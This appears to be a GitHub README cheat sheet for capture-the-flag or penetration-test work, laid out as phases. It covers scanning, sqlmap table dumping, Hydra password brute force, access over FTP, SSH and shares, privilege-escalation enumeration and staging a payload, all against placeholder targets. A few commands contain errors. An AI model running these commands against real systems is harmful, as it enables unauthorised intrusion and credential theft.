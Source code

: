 # 1° Scan Nmap 

$sudo nmap -Pn -A [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn -sV -O [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn --script vuln [Target_IP]

$sudo nmap -Pn -p 80 --script http-enum,http-robots.txt [Target_IP]

$sudo nmap -Pn -p 80 --script http-sql-injection [Target_IP]

$sudo nmap -Pn -p 80 --script http-passwd --script-args http-passwd.root=/test/ [Target_IP]

$sudo nmap -Pn -p 80 --script http-vuln-* [Target_IP]

$sudo nmap -Pn -p 21 --script ftp-anon [Target_IP]

$sudo nmap -Pn -p 21 --script ftp-proftpd-backdoor [Target_IP] - ProFTPD 1.3.3c

$sudo nmap -Pn -p 21 --script ftp-vsftpd-backdoor [Target_IP] - vsFTPd 2.3.4

#nmap -Pn -p 111 --script nfs-ls,nfs-statfs,nfs-showmount [Target_IP]

#nmap -Pn -p 445 --script smb-enum-shares,smb-enum-users [Target_IP]

#nmap -Pn -p 445 --script smb-vuln-* [Target_IP]

# 2° Scan Dirb/Gobuster

$dirb http://example.com -o dirb-report.txt

$gobuster -u http://example.com -x php,html,js,txt -w /usr/share/dirb/wordlists/big.txt dir

# 3° Scan SQLMap

$sqlmap -u http://Target_IP/login.php --forms --dump

# 4° Brute Force

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 ssh

$hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 smb

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP rdp

# 5° Gain Access

http://example.com/login

http://example/upload

http://example.com/hiden/dir

http://example.com/robots.txt

$ftp Target_IP

$ssh user@Target_IP

$ssh -i id_rsa user@Target_IP

$ssh -oHostKeyAlgorithms=+ssh-rsa user@Target_IP

$sudo mount -o rw Target_IP:/backup /tmp/dir-target

$sudo mount -t cifs -o username=user_name //Target_IP/share_name /mnt/dir-target

$smbclient //Target_IP/shared/dir

# 6° Reverse Shell

php, python, nc

# 7° Search Priv-Esc

$cat /etc/proc/version

$cat /etc/issue

$cat /etc/passwd

$cat /etc/crontab

$cat /etc/exports

$cat ~/.*history | less

$id

$ls -la /

$ls -la /home

$sudo -l

$getcap -r / 2>/dev/null

$find / -perm -o w -type d 2>/dev/null

$find / -perm -u=s -type f 2>/dev/null

$find / -name perl* python* gcc* 2>/dev/nul

$find /home -name flag*.txt

$find / -user "www-data" -name "*" 2>/dev/null

# 8° Deploy Payload

$python2 -m SimpleHTTPServer 8000

$python3 -m http-server 8000

$scp payload.sh user@Target_IP:/home/user
